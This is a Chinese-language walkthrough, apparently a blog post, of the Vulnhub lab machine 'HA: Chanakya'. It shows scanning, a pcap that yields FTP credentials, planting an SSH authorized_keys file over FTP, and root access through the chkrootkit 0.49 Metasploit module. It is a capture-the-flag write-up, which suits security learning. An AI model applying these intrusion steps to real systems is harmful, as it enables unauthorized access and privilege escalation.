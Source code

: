 ```yaml
---
layout: post
title: "Chanakya walkthrough"
date: 2021-09-20
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP                |
| ------------- | ----------------- |
| 本机（Win10） | `192.168.202.1`   |
| Kali          | `192.168.202.128` |
| Chanakya      | `192.168.202.132` |

### 扫描端口和版本信息

`nmap -A -p- 192.168.202.132`

```shell
┌──(root💀kali)-[~]
└─# nmap -A -p- 192.168.202.132                 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-20 02:46 EDT
Nmap scan report for 192.168.202.132
Host is up (0.00052s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     pyftpdlib 1.0.0 or later
| ftp-syst: 
|   STAT: 
| FTP server status:
|  Connected to: 192.168.202.132:21
|  Waiting for username.
|  TYPE: ASCII; STRUcture: File; MODE: Stream
|  Data connection closed.
|_End of status.
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fd:4b:52:55:c2:41:5f:51:a4:5d:90:5b:be:17:0d:13 (RSA)
|   256 f1:98:34:0a:43:97:6d:c7:e0:78:d3:23:e0:4e:18:11 (ECDSA)
|_  256 9d:eb:79:af:59:c0:bb:c2:4a:e3:00:7c:05:62:48:30 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA: Chanakya
MAC Address: 00:0C:29:FE:F0:06 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.52 ms 192.168.202.132
```

结果可知ftp服务不能进行匿名登录，需要知道用户名和密码才能登录，那么我们暂时放下，将目光移到web服务器。web页面是介绍一个人的生平，没什么有价值的信息，那么进行目录枚举，看看存在哪些文件。

![1]({{ '/chanakya/1.png' | prepend: site.url }})

### 目录枚举

在扫描常规文件后缀没出什么东西时，再尝试其他文件格式。在这里枚举文本文件得到了根目录下的`abuse.txt` 

```shell
──(root💀kali)-[~]
└─# ffuf -u http://192.168.202.132/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200 -e .txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://192.168.202.132/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

                        [Status: 200, Size: 2382, Words: 118, Lines: 74]
abuse.txt               [Status: 200, Size: 14, Words: 1, Lines: 2]
index.html              [Status: 200, Size: 2382, Words: 118, Lines: 74]
:: Progress: [9228/9228] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::
```

该文本文件的内容为：`nfubxn.cpncat`，看起来像是用户名和密码，不用经过尝试后发现并不是。之后经过搜索后知道该字符串是 ROT13 加密，解密后得到字符串：`ashoka.pcapng` 。很明显这是个流量包文件，之后我们将它下载来用 *wireshark* 分析即可。

### 流量包分析

通过分析可以知道该流量包中截获的是ftp流量，从中我们找到ftp的用户名和密码为：`ashoka:kautilya`。

![2]({{ '/chanakya/2.png' | prepend: site.url }})

并且之后在登录到ftp服务器后查看了当前目录，从返回结果中我们知道此时的目录下存在*.ssh*目录，由此可以该路径在用户主目录下。

![3]({{ '/chanakya/3.png' | prepend: site.url }})

### ssh密钥登录（无密码）

通过之前的信息我们知道了ftp的用户名和密码，那么使用该用户名和密码登录到服务器，并且将本地的认证文件传输到ftp服务器上。

1. kali 生成密钥对

   ```shell
   ssh-keygen
   mv ~/.ssh/id_rsa.pub ~/.ssh/authorized_keys
   ```

2. 将认证文件传递到ftp服务器上

   ```shell
   ftp> mkdir .ssh
   ftp> cd .ssh
   ftp> put authorized_keys
   ```

### Getshell

```shell
┌──(root💀kali)-[~]
└─# ssh ashoka@192.168.202.132

....

Last login: Mon Sep 20 00:43:19 2021 from 192.168.202.128
ashoka@ubuntu:~$ id
uid=1001(ashoka) gid=1001(ashoka) groups=1001(ashoka)
```

接下来就是常规操作，上传 *LinEnum.sh* 脚本到靶机并查看运行结果。从结果中我们可以看到 *root* 管理员执行了计划任务。

![4]({{ '/chanakya/4.png' | prepend: site.url }})

此外在 `/tmp` 目录下的 *logs* 日志中发现 chkrootkit 执行日志，我们可以通过 *find* 找到 *chkrootkit* 的文件路径。

```shell
ashoka@ubuntu:/tmp$ find / -name chkroot* 2>/dev/null
/usr/local/share/chkrootkit
/usr/local/share/chkrootkit/chkrootkit.lsm
/usr/local/share/chkrootkit/chkrootkit
/etc/chkrootkit.sh
ashoka@ubuntu:/tmp$ cat /etc/chkrootkit.sh 
#! /bin/bash
/usr/local/share/chkrootkit/chkrootkit >/tmp/logs
```

并且知道 *chkrootkit* 版本为：**0.49**，存在本地提权漏洞。

### 提权

通过 *msf* 的脚本实现提权

```shell
msf6> use exploit/multi/script/web_delivery
msf6> use exploit/unix/local/chkrootkit
```

拿到*root* 权限即可得到flag：

```shell
msf6 exploit(unix/local/chkrootkit) > sessions -i 2
[*] Starting interaction with 2...

id
uid=0(root) gid=0(root) groups=0(root)
ls
final.txt
cat final.txt   
                                                                   
!! Congrats you have finished this task !!

Contact us here:

Hacking Articles : https://twitter.com/rajchandel/
Geet Madan : https://in.linkedin.com/in/geet-madan

+-+-+-+-+-+ +-+-+-+-+-+-+-+
 |E|n|j|o|y| |H|A|C|K|I|N|G|
 +-+-+-+-+-+ +-+-+-+-+-+-+-+
____________________________________
```



### 总结

1. Chkrootkit 0.49 以及以下版本均存在本地提权漏洞
2. 查看进程时观察到 *root* 账户执行了计划任务，其中进程显示有执行 *ftp.sh*，但 *chkrootkit.sh* 没有显示出来（`crontab -u root -l`）





